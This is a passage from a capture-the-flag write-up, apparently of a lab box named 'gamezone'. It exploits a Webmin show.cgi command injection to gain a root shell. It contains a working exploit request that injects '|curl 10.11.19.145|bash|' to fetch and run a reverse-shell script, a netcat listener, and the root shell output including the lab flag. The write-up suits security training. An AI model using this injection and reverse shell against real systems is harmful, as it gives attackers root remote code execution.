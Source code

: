 Only need to send a get request to RCE

![](/assets/obsidian/e3652ad65498ce93acc06a90ac98376c.png)

Start http server with reverse shell script written in `index.html`

```bash
┌──(kali㉿kali)-[~/scripts/www-revshell]
└─$ python3 -m http.server 80
```

Start reverse shell listener

```bash
rlwrap -r -f . nc -nlvp 1111
```

Get the `sid` from cookie and use `httpie` for auto url encode

```bash
http 'http://127.0.0.1:10000/file/show.cgi/bin/123aaa|curl 10.11.19.145|bash|' 'Cookie: sid=840c6c901d6bd7af92b0b4b60885fd7f'
```

```bash
┌──(kali㉿kali)-[~/scripts/www-revshell]
└─$ rlwrap -r -f . nc -nlvp 1111
listening on [any] 1111 ...
connect to [10.11.19.145] from (UNKNOWN) [10.10.233.188] 50842
bash: cannot set terminal process group (1246): Inappropriate ioctl for device
bash: no job control in this shell
root@gamezone:/usr/share/webmin/file/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@gamezone:/usr/share/webmin/file/# cat /root/root.txt
cat /root/root.txt
a4b945830144bdd71908d12d902adeee
root@gamezone:/usr/share/webmin/file/#
```